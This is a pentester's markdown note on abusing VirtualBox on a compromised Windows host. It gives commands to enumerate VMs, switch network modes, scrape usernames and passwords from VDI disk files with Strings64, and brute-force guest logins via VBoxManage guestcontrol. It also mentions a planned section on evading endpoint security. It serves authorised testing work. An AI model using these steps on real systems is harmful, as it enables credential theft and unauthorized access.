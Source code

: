 # Windows

## 01 - Gathering Information

Enumerate available virtual machines.

```
C:\> "C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" list vms
```

Get the guest machine's NIC IDs, MAC & network mode (NAT/Bridged Adapter etc.).

```
C:\> "C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" showvminfo --details "<vm_name or ID>" | findstr.exe "MAC"
```

Get the guest machine's IP.

```
C:\> "C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" guestproperty enumerate "<vm_name or ID>" | findstr.exe "IP"
```

## 02 - Modify VM's Network Modes

^f2d2f1

```
C:\> "C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" VBoxManage modifyvm "<vm_name or ID>" --nic <NIC_ID> bridged
```

## 03 - Search VDI Files

```
C:\Users\%USERNAME%\VirtualBox VMs\
```

```
C:\> "C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" showvminfo --details "<vm_name or ID>" | findstr.exe "Location:"
```

## 04 - Brute Force VM Login

Copy the `Strings64.exe` sysinternals tool from a WebDAV share.

```
C:\> net.exe use z: \\live.sysinternals.com\tools

C:\> copy z:\Strings64.exe .

C:\> net.exe use z: /delete
```

You can do this in PowerShell as well.

```
PS C:\> New-PSDrive -Name Z -PSProvider FileSystem -Root "\\live.sysinternals.com\tools"

PS C:\> Copy-Item z:\Strings64.exe .

PS C:\> Remove-PSDrive -Name Z
```

Accept the EULA.

```
C:\> .\Strings64.exe /accepteula
```

Enumerate the virtual machine's username.

```
C:\> .\Strings64.exe "C:\Users\%USERNAME%\VirtualBox VMs\<VM_name>\<VM_name>.vdi" | findstr.exe "USER_ID="
```

Start the virtual machine.

```
C:\> "C:\Program Files\Oracle\VirtualBox\VBoxHeadless.exe" -s "<vm_name or ID>"
```

Create a simple script to perform brute force attempts on the current virtual machine.

> [!WARNING] Security Events & Account Lockout
> The brute force attempts will generate security event 4625 and will result a lockout if the policy is configured. Usually in virtual machines it's meant to be disposable.

```
C:\> "C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" guestcontrol "<vm_name or ID>" --username <username> --password <password> run --exe "[drive_letter:/]path/to/binary"
```

## 05 - Network Scanning VMs

After modifying the virtual machine's [[#^f2d2f1|network mode]]. Scan the target to look for vulnerabilities.

## 06 - Sensitive Data

Search for credentials stored in virtual machine.

```
C:\> .\Strings64.exe "C:\Users\%USERNAME%\VirtualBox VMs\<VM_name>\<VM_name>.vdi" | findstr.exe /i password > passwords.txt
```

Enumerate username inside the virtual machine.

```
C:\> .\Strings64.exe "C:\Users\%USERNAME%\VirtualBox VMs\<VM_name>\<VM_name>.vdi" | findstr.exe /i <username> > sensitive_data.txt
```

## 07 - Creating a VM for Evasion

TODO: Write one more about deploying a VM to evade security endpoints

---
## References

### Mrd0x

- [Mrd0x: Leveraging VirtualBox During Engagements](https://mrd0x.com/leveraging-virtualbox-during-pentest-engagements/)

### Hackmag

- [Hackmag: Spying penguin. Windows post-exploitation with a Linux-based VM](https://hackmag.com/security/windows-mitm)